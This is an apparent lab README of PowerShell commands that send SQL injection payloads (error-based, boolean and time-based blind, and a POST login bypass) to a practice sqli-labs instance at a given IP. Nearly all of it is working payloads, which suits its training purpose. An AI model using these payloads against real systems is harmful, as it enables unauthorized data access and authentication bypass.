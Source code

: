 # PowerShell SQLi Testing Examples

Replace `$ip` with your GCP instance external IP.

```powershell
$ip = "34.59.129.231"
```

## Less-1: Error-Based String Injection

### Normal Request
```powershell
iwr "http://$ip/Less-1/?id=1"
```

### Test for Vulnerability
```powershell
# Single quote causes SQL error
iwr "http://$ip/Less-1/?id=1'"

# Confirm with comment
iwr "http://$ip/Less-1/?id=1'--"

# Extract data
iwr "http://$ip/Less-1/?id=1' OR '1'='1"
```

## Less-2: Error-Based Numeric Injection

### Normal Request
```powershell
iwr "http://$ip/Less-2/?id=1"
```

### Test for Vulnerability
```powershell
# Boolean-based
iwr "http://$ip/Less-2/?id=1 AND 1=1"
iwr "http://$ip/Less-2/?id=1 AND 1=2"

# Extract all rows
iwr "http://$ip/Less-2/?id=1 OR 1=1"
```

## Less-3: String with Twist (')

### Test for Vulnerability
```powershell
iwr "http://$ip/Less-3/?id=1'"
iwr "http://$ip/Less-3/?id=1') OR ('1'='1"
```

## Less-4: Double Quotes

### Test for Vulnerability
```powershell
iwr "http://$ip/Less-4/?id=1`""
iwr "http://$ip/Less-4/?id=1`") OR (`"1`"=`"1"
```

## Less-8: Blind Boolean-Based

### Test for Vulnerability
```powershell
# True condition (page loads normally)
iwr "http://$ip/Less-8/?id=1' AND '1'='1"

# False condition (different response)
iwr "http://$ip/Less-8/?id=1' AND '1'='2"
```

## POST-Based Example (Less-11)

```powershell
# Normal login
$body = @{
    uname = "admin"
    passwd = "password"
}
iwr "http://$ip/Less-11/" -Method POST -Body $body

# SQL Injection
$body = @{
    uname = "admin' OR '1'='1"
    passwd = "anything"
}
iwr "http://$ip/Less-11/" -Method POST -Body $body
```

## Useful PowerShell Tips

### View Response Content
```powershell
$response = iwr "http://$ip/Less-1/?id=1"
$response.Content
```

### View Status Code
```powershell
$response.StatusCode
```

### Measure Response Time (Blind Time-Based)
```powershell
Measure-Command { iwr "http://$ip/Less-9/?id=1' AND SLEEP(5)--" }
```

### Save Response to File
```powershell
iwr "http://$ip/Less-1/?id=1" -OutFile response.html
```

## URL Encoding in PowerShell

```powershell
# PowerShell handles most encoding automatically, but for special chars:
[System.Web.HttpUtility]::UrlEncode("1' OR '1'='1")

# Or use backtick for escaping in double quotes
iwr "http://$ip/Less-1/?id=1`' OR `'1`'=`'1"
```
